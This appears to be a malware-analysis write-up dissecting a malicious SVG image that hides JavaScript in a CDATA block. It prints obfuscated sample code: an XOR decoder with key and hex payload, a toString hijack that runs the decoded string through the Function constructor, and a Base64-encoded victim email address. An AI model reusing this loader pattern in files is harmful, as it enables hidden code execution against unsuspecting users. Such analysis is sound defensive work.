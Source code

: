 ```js
    const c = Function.prototype.toString;
    const W = function() {};
    Object.defineProperty(W, 'toString', {
        value: function() {
            if (!I.has(this)) {
                I.set(this, true);
                Promise.resolve().then(() => {
                    (new S(Q))();
                });
                Object.defineProperty(this, 'toString', {
                    value: c,
                    configurable: true,
                    writable: true
                });
            }
            return c.call(this);
        },
        configurable: true,
        writable: true 
    });
    n = `${W}`;
    n;
})();
]]>
</script>
</svg>
```

This is the full content of the svg that was shared, on the first look you can see this doesn't seem like a normal svg image as we can see different JavaScript functions, weird base64 etc.

## Analyzing the code

If you look at line 3, you'll notice the use of the `<script>` tag — typically used to execute JavaScript inside HTML. Since SVG supports HTML elements, this same functionality applies here too.

Next, you’ll see a `<![CDATA[]]>` section. CDATA is commonly used in XML when you need to include raw HTML or XML code. Everything inside it is treated as character data — so you don't have to worry about escaping characters like < or &.

Now, inside the CDATA block, we spot a Base64-encoded string. When decoded, it reveals a user’s email address — likely part of a targeted attack.

Following that, there are two constants defined: V and R. These are passed to a function j() which returns a result stored in Q.

From the looks of it, the j() function is performing a simple XOR operation, where t is the key and Z is the input string being decrypted or obfuscated.

```js
w = "YmVuLmJhcmxvd0BkYXpuLmNvbQ==";  

(() => {
    const V = "3656af0dc9c4726f82de61fa", 
    R = "445f5b520e111e080c5a02405e5d584850400103160c46004759571e43077846481b31041519140570104f427b07414a537a4c564a41090c4412445159151d417248434e147c354318140007434d50050e5948540200564d1f680a421d162810141d127a0c411b463543411f577e07061310222b141a443459141e113311174f03632b541c157b561f19463470134d436142171d46045d43481e104d101914077b104f050e5a064818410e";
    
    const j = (Z, t) => {
        let o = [];
        for (let H = 0; H < Z.length; H += 2) {
            const l = (parseInt(Z[H], 16) << 4) | parseInt(Z[H + 1], 16);
            o.push(String.fromCharCode(l ^ t.charCodeAt(Math.floor(H / 2) % t.length)));
        }
        return o.join('');
```